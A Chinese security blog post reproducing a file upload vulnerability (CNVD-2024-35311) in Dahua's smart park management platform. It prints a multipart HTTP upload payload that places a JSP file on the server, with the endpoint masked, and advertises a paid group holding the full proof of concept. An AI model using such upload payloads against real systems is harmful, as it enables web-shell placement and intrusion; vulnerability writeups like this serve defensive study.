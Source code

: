#  【1day】⼤华智慧园区综合管理平台⽂件上传(CNVD2024-35311)   
原创 跟着斯叔唠安全  跟着斯叔唠安全   2025-05-13 11:34  
  
免责声明  
：  
请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
  
1  
  
Start  
  
系统介绍  
  
大华智慧园区综合管理平台  
旨在通过构建统一的管理和服务平台，整合园区内的人、车、物、事件等多维度数据，实现园区的智能化、精细化管理。该平台主要面向商业园区、产业园区、高校园区等多种场景，提供从安防监控、设备管理到人员管理、访客管理、车辆管理等多方面的综合解决方案  
  
资产测绘  
  
![](https://mmbiz.qpic.cn/mmbiz_png/pKCicPnn24UZuEsRdXk3Ba9v7BJOuNMzia070HD1CkSMgyP9j5CugFDYTgiabpG9BP8OjR39FgWCufvCxmrniaBzhw/640?wx_fmt=png&from=appmsg "")  
  
  
2  
  
Action  
  
漏洞复现  
  
直接使用payload，向目标接口上传文件  
```
POST /******/******.****** HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Accept-Encoding: gzip, deflate
Connection: keep-alive
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Length: 336

------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="****"; filename="aaa.jsp"
Content-Type: text/plain

<% out.print("xxxx~~~");%>
------WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="***"

aaa.jsp
------WebKitFormBoundary7MA4YWxkTrZu0gW--
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/pKCicPnn24UZ0ucy4VKdrBniatwW5rxFGBR8j8loHZbCZZxabib0l3nrqUofcUOQTCp446jSDyxgx8eWrT1cXwD5A/640?wx_fmt=png&from=appmsg "")  
  
然后根据代码设定的上传文件名规则拼接成对应的文件名称，访问文件上传后文件存放的路径  
  
![](https://mmbiz.qpic.cn/mmbiz_png/pKCicPnn24UZuEsRdXk3Ba9v7BJOuNMziaCIMib8aLuOgajhzlre4CUkF5NHD0QDBlDPPkVUXOkh0FuUTLH8znfug/640?wx_fmt=png&from=appmsg "")  
  
  
3  
  
End  
  
🚀 **新圈子上线 | 高质量安全内容持续更新中！**  
  
我最近在纷传上建立了一个全新的安全技术圈子，主要聚焦于 **WEB安全、APP安全、代码审计、漏洞分享**  
 等核心方向。目前圈子刚刚建立，内容还不算多，但会**持续高频更新**  
，只分享真正有价值、有深度的干货文章。  
  
📚 圈子中包含：  
- 高质量原创或精选的安全技术文章  
  
- 公众号历史付费内容免费查看（如：小程序RPC、APP抓包解决方案）  
  
- 一些只在圈子内分享的独家思路和实战经验  
  
文章中涉及的完整POC及代码审计报告已上传至纷传圈子中，需要的师傅可以自取哈  
  
![](https://mmbiz.qpic.cn/mmbiz_png/pKCicPnn24UZuEsRdXk3Ba9v7BJOuNMziaiaUZ9b3d40xXpSzR5icxvb4K6XCVp60wzvaiayiaqMR15U0wZ9oQmUKHUQ/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
  
  

